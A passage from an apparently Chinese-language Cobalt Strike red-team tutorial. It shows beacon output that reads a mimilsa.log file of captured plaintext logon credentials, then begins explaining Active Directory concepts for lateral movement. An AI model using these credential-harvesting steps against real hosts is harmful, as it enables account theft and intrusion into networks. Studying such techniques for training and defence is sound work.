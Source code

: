 可以看到是存在`mimilsa.log`文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看`mimilsa.log`文件内容。

```
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \	
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator	Password123!
```

成功获取到当前登录用户的明文密码。

# 0x06 横向扩展

## 1、Windows 企业局域网环境介绍

**活动目录**

活动目录`Active Directory`是一种能够集中管理用户、系统和策略的技术，活动目录的一个重要概念就是`域`。

Active Directory 存储有关网络上对象的信息，并让管理员和用户可以更容易地使用这些信息。例如 Active Directory 域服务即 AD DS 存储着有关用户账户的信息，并且使同一网络下的其他授权用户可以访问此信息。

**域**

域`Domain`即是一个管理员或者说是网络边界，在域里的用户和系统都是通过 AD进行管理的。

在域里，如果想控制服务器进行操作就需要取得域的信任。

**域控制器**

域控制器`Domain Controller`顾名思义就是一个对域里的用户和系统进行身份验证的一个系统。

**本地用户**

本地用户`Local User`就是系统上的一个标准用户。

当我们想在 Windows 命令行下指定一个本地的用户时，可以通过输入 `.\本地用户名`或者 `计算机名\本地用户名`来指定本地的用户账户，其中`.`表示计算机名。

**域用户**

域用户`Domain User`是指域控制器下的用户，如果想指定域用户，可以输入`域名\域用户名`

**本地管理员**

本地管理员`Local Administrator`即是指在本地系统有管理权限的用户。

**域管理员**

域管理员`Domain Administrator`是指在域控制器上有管理权限的用户。

> 注意：以下命令是在主机中运行的结果，在 Cobalt Strike 中运行只需要根据命令类型在命令前加上 shell 或者 powershell 即可。

## 2、主机和用户枚举

### 主机枚举
